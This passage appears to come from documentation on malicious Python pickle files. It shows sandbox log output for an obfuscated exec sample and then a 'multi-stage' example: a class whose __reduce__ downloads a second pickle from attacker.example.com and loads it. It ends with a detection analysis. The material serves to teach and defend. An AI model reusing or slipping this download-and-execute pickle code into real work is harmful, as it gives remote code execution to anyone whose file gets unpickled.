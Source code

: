 ### Behavioral Analysis
The behavioral analysis reveals the true nature of the obfuscated code:

```
[SANDBOX] Detected base64 decoding operation
[SANDBOX] Dynamic code execution detected (exec)
[SANDBOX] Process created: calc.exe
[SANDBOX] Malicious behavior confirmed: Obfuscated command execution
```

## Example 4: Multi-stage Pickle Attack

### Description
This example demonstrates a multi-stage attack where the initial pickle payload downloads and executes a second-stage payload.

### Malicious Pickle Code
```python
import pickle
import urllib.request
import tempfile
import os

class MultiStageAttack:
    def __reduce__(self):
        return (self._stage1, ())
    
    def _stage1(self):
        # Download second stage payload
        url = "https://attacker.example.com/stage2.pkl"
        temp_file = tempfile.NamedTemporaryFile(delete=False)
        urllib.request.urlretrieve(url, temp_file.name)
        
        # Execute second stage
        with open(temp_file.name, 'rb') as f:
            stage2 = pickle.load(f)
        
        # Clean up
        os.unlink(temp_file.name)
        return True

# Create the malicious pickle
with open('multi_stage.pkl', 'wb') as f:
    pickle.dump(MultiStageAttack(), f)
```

### Visual Analysis
**Multi-stage Attack Analysis:**
- **Opcode Pattern:** Network download → Secondary pickle load
- **Suspicious Modules:** `urllib.request`, recursive `pickle.load`
- **Entropy Level:** Moderate to High (network URLs and staged execution)
- **Structure:** Download-and-execute pattern with cleanup operations
